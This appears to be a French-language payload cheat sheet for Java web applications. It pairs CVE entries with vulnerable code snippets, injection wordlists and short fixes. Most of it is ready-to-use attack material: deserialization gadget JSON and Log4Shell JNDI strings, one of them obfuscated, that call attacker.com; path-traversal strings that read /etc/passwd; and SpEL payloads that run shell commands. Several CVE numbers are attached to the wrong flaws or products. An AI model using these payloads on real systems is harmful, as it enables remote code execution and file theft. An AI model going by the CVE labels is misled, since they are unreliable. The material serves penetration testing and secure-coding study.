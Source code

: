 # JAVA

- Payloads d’injection endpoints Java (boîte blanche)
  - CVE-2017-7525 (Jackson Désérialisation)
    - Description : Exécution de code via désérialisation non sécurisée d’objets JSON avec Jackson.
    - Versions vulnérables : Jackson < 2.9.5
    - Exemples de code vulnérable :
      ```
      ObjectMapper mapper = new ObjectMapper();
      Object obj = mapper.readValue(jsonInput, Object.class);
      ```
      ```
      @PostMapping("/parse")
      public void parse(@RequestBody String json) throws Exception {
          Object obj = mapper.readValue(json, Object.class);
      }
      ```
    - Wordlist d’attributs :
      - `@class`
      - `dataSourceName`
      - `autoCommit`
      - `driverClassLoader`
      - `driverClassName`
    - Payloads :
      ```
      {
        "@class": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://attacker.com:1099/Exploit",
        "autoCommit": true
      }
      ```
      ```
      {
        "@class": "org.apache.commons.dbcp2.BasicDataSource",
        "driverClassLoader": "com.sun.org.apache.bcel.internal.util.ClassLoader",
        "driverClassName": "org.apache.bcel.util.JavaWrapper",
        "url": "bcel://..."
      }
      ```
    - Correctif approprié :
      - Mettre à jour Jackson ≥ 2.9.5
      - Restreindre les types autorisés à la désérialisation
  - CVE-2021-44228 (Log4Shell)
    - Description : Injection JNDI via les logs Log4j permettant une exécution de code à distance.
    - Versions vulnérables : Log4j 2.0 à 2.14.1
    - Exemples de code vulnérable :
      ```
      logger.error("Erreur : " + userInput);
      ```
      ```
      log.info(request.getParameter("search"));
      ```
    - Wordlist de payloads :
      - `${jndi:ldap://attacker.com/a}`
      - `${jndi:rmi://attacker.com/a}`
      - `${${::-j}${::-n}${::-d}${::-i}:ldap://attacker.com/a}`
    - Correctif approprié :
      - Mettre à jour Log4j ≥ 2.15.0
      - Désactiver la résolution JNDI dans la configuration
  - CVE-2016-8735 (Path Traversal File Upload)
    - Description : Téléversement de fichier avec contournement de chemin permettant d’écraser des fichiers sensibles.
    - Versions vulnérables : Applications Java utilisant un traitement naïf des chemins
    - Exemples de code vulnérable :
      ```
      String filename = request.getParameter("filename");
      FileOutputStream fos = new FileOutputStream("/uploads/" + filename);
      ```
      ```
      @PostMapping("/upload")
      public void upload(@RequestParam String name, InputStream file) throws IOException {
          Files.copy(file, Paths.get("/data/" + name));
      }
      ```
    - Wordlist de payloads :
      - `../../../../etc/passwd`
      - `..\\..\\..\\..\\windows\\win.ini`
      - `/etc/passwd`
      - `C:\Windows\win.ini`
    - Correctif approprié :
      - Valider et normaliser les chemins de fichiers
      - Interdire les séquences `../` et `..\\`
  - CVE-2018-1270 (Spring Data REST SpEL Injection)
    - Description : Injection SpEL dans les paramètres de requête permettant l’exécution de code.
    - Versions vulnérables : Spring Data Commons < 1.13.11, < 2.0.6, < 2.1.4
    - Exemples de code vulnérable :
      ```
      @RequestParam String sort
      repository.findAll(Sort.by(Sort.Order.by(sort)));
      ```
      ```
      @GetMapping("/search")
      public List<User> search(@RequestParam String expr) {
          ExpressionParser parser = new SpelExpressionParser();
          return userRepository.findByExpr(parser.parseExpression(expr).getValue());
      }
      ```
    - Wordlist de payloads :
      - `T(java.lang.Runtime).getRuntime().exec('id')`
      - `new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('ls').getInputStream()).next()`
    - Correctif approprié :
      - Mettre à jour Spring Data Commons
      - Désactiver l’évaluation SpEL sur les paramètres utilisateur
  - CVE-2019-12384 (Fastjson Désérialisation)
    - Description : RCE via la désérialisation de types arbitraires avec Fastjson.
    - Versions vulnérables : Fastjson < 1.2.68
    - Exemples de code vulnérable :
      ```
      JSON.parseObject(input, Object.class);
      ```
      ```
      @PostMapping("/fastjson")
      public void fastjson(@RequestBody String json) {
          Object obj = JSON.parseObject(json, Object.class);
      }
      ```
    - Wordlist d’attributs :
      - `@type`
      - `driverClassLoader`
      - `driverClassName`
      - `url`
    - Payloads :
      ```
      {
        "@type": "org.apache.commons.dbcp2.BasicDataSource",
        "driverClassLoader": "com.sun.org.apache.bcel.internal.util.ClassLoader",
        "driverClassName": "org.apache.bcel.util.JavaWrapper",
        "url": "bcel://..."
      }
      ```
    - Correctif approprié :
      - Mettre à jour Fastjson ≥ 1.2.68
      - Désactiver la désérialisation automatique des types
